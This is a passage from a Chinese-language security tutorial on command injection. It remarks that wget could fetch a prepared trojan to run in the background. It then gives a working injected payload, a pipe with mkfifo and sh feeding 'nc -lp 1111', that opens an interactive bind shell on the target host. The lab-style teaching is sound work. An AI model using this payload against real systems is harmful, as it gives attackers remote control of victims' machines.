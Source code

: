 ![show-passwd](../imgs/wm_75.png)

如此的话，似乎什么命令都可以执行，我们甚至可以使用 `wget` 命令下载我们准备好的木马，使他在后台执行，这样我们就可以通过这个某门远程连接或者是 webshell 来远程操控我们的目标主机了。

可见命令注入是一件非常危险的事情。一定不能轻易的提供这样的服务，若是一定要提供一定要做好响应的防范与过滤措施。

### 5.4 命令注入进阶

命令的注入不仅仅可以这样简单的执行命令，我们还可以联合 metasploit 工具。

还记得我们在远程包含试验中使用的反弹 shell 中所使用的 netcat 工具吗？也就是 nc 命令。

我们利用 mkfifo 命令与 nc 命令创建一个可以交互的平台：

```
| mkfifo /tmp/pipe;sh /tmp/pipe | nc -lp 1111 > /tmp/pipe
```

该命令就是通过 mkfifo 命令创建一个进程之间能够相互通信的管道，使得 nc 所监听的 1111 端口号能够与可交互的 shell 相互连接通信。如此我们就可以像 ssh 登陆一般使用目标主机了。

submit 提交之后，我们会发现页面一直处于加载状态，因为 nc 一直在监听 1111 端口，并没有切换至后台工作：
